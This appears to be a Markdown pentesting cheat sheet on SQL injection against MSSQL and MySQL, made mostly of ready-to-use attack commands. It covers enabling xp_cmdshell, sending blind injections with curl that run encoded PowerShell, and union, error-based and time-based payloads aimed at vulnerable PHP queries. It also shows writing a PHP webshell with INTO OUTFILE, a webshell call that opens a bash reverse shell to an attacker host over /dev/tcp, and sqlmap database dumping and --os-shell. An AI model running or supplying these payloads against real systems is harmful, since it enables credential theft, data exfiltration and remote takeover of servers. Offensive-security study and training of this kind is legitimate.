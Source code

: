 # SQLi

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines
```

### Attacks

#### Principle

Function `xp_cmdshell` needs to be activated:
- usage: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
- enabling: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15

Example "locally":
```
kali$ impacket-mssqlclient Administrator:thelocaladminpass@$TargetIp -windows-auth
SQL> execute sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> execute sp_configure 'xp_cmdshell'
SQL> reconfigure;
SQL> execute xp_cmdshell 'whoami';
```

#### In blind mode

Once identified a vulnerable input field (ALWAYS url encoded):
```
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20sp_configure%20...%3b--
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20reconfigure%3b--
...
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20xp_cmdshell%20'powershell%20-enc%20some_long_base64_string_url_encoded'%3b--
```
and listen with nc: `nc -lnvp $some_port_as_in_the_base64_long_string`.

Or sqlmap...

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
%' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '%' union select database(), user(), @@version, null, null -- //'";
SELECT * from customers WHERE name LIKE '' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
The `order by` injection retrieves the table size, then simple `UNION SELECT` test:
```
' union select '1', '2', '3', '4', '5', '6', ... -- //
```
URL encoding: https://www.urlencoder.io/

#### Blind injections

Boolean-based, the fake user query gives an empty output:
```
http://$TargetIp/blindsqli.php?user=trueuser' AND 1=1 -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND 1=1 -- //
```

Time-based, the fake user response is immediate (time consuming):
```
http://$TargetIp/blindsqli.php?user=trueuser' AND IF (1=1, sleep(3),'false') -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND IF (1=1, sleep(3),'false') -- //
```

#### Php injection - OS command

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
curl $TargetIp/path/on/target/webshell.php?cmd=id
curl $TargetIp/path/on/target/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
```

## Sqlmap

https://sqlmap.org/

Test for vulnerabilities and dump the database:
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump # time consuming
```

Intercept a `UNION SELECT` in Burp and record the `POST` as a file. Then use sqlmap to get a webshell:
```
sqlmap -r post_request_save_as_a_file.txt -p some_input_parameter_in_the_post_request --os-shell --web-root "/var/www/html/tmp"
```


